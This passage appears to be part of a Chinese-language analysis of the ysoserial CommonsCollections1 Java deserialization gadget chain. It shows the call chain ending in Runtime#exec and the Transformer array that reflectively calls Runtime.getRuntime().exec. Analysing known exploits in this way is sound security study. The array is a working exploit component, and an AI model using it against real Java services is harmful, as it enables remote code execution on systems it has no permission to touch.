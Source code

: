 ![](pic/ysoserial-cc1-2.png)

```
AnnotationInvocationHandler#readObject()
  Map(Proxy)#entrySet()
    AnnotationInvocationHandler#invoke()
      LazyMap#get()
        ChainedTransformer#transform()
          ConstantTransformer#transform()
          InvokerTransformer#transform()
          InvokerTransformer#transform()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#exec()
```

从`CommonsCollections1#getObject()`可知，`ChainedTransformer#iTransformers`指向的数组如下：
```java
final Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[] {
        String.class, Class[].class }, new Object[] {
        "getRuntime", new Class[0] }),
    new InvokerTransformer("invoke", new Class[] {
        Object.class, Object[].class }, new Object[] {
        null, new Object[0] }),
    new InvokerTransformer("exec",
        new Class[] { String.class }, execArgs),
    new ConstantTransformer(1) };
```
